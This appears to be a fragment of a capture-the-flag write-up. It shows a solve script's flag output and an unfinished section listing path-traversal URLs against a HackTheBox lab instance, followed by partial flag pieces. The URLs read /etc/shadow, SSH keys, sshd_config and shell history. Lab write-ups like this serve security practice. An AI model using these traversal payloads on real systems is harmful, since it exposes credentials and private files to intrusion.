 and we get the flag:
```shell
bread@sticks:~# python solve.py
TMHC{5yjzx3d265gb7j}
```

    `TMHC{5yjzx3d265gb7j}`

## Other - Category: incomplete


```
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.bash_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.histdb/zsh-history.db
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/whatcanisudo
view-source:http://docker.hackthebox.eu:30361/?page=../../../../opt/checkflag9of10.exe
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.zsh_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../etc/ssh/sshd_config
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/web/.ssh/authorized_keys
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../etc/shadow
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/flag3of10/.ssh/authorized_keys


flag(1/10):TMHC{y0u_
flag(2/10):0nly_g3t
flag(3/10):#1flag
flag(4/10):
flag(5/10):7iME_:(_
flag(6/10):Bu7_Th3r3_
flag(7/10):
flag(8/10):_A_l0t_
flag(9/10): <? errrrh re>
flag(10/10):
```


